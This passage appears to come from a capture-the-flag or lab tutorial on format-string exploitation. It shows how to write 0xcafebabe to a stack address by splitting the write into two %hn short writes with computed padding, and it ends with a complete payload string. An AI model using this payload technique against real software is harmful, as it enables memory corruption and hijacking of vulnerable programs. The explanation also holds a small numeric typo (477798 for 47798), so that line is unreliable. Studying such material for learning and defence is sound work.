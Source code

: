 We should write `3405691582` (`0xcafebabe` in dec) chars to write `0xcafebabe` which it's impossible.

There is a a trick, we can use `AAAA%<value-4>x%7$n`.

Example:

```
AAAA%96x%7$n  -> 100(dec) into 0x41414141
```

> **Note**: `%96` will pad with spaces.

The second issue is that you don't want to do `AAAA%3405691578x%7$n`, because it will write a 3405691582 length pad on the standard output, which it will take forever. So instead of writing a long integer (4 bytes), we will write 2 short integers (2 bytes).

To do that, we will use another specifier `%hn`.

* We want to write `0xcafebabe`. It means `0xcafe` (51966 in decimal) in the high order bytes and `0xbabe` (47806 in decimal) in the low order bytes.
* We want to write those value at `0xbffff6ac`. It means writing `0xcafe` at `0xbffff6ac + 2 = 0xbffff6ae` (high order) and `0xbabe` at `0xbffff6ac` (low order).

**Here the fformula to calculate the padding:**

```
[The value we want] - [The bytes alredy wrote] = [The value to set].
```

* Low order bytes:

It will be `47806 - 8 = 47798`, because we already wrote `8` bytes (the two 4 bytes of addresses).

* High order bytes:

It will be `51966 - 47806 = 4160`, because we already wrote `47806` bytes (the two 4 bytes addresses and 47798 bytes from the previous writing).

* Construct the payload:

```
\xac\xf6\xff\xbf\xae\xf6\xff\xbf%47798x%7$hn%4160x%8$hn

- \xac\xf6\xff\xbf -> 0xbffff6ac points to low order bytes
- \xae\xf6\xff\xbf -> 0xbffff6ae points to high order bytes
- %47798x -> will write 477798 bytes on the standard output
- %7$hn -> will write 8 + 47798 = 47806 bytes (or 0xbabe) at the first address specified (0xbffff6ac).
- %4160x -> will write 4160 bytes on the standard output.
- %8$hn -> will write 8 + 47798 + 4160 = 51966 (or 0xcafe) at the second address specified (0xbffff6ae).

```




# References
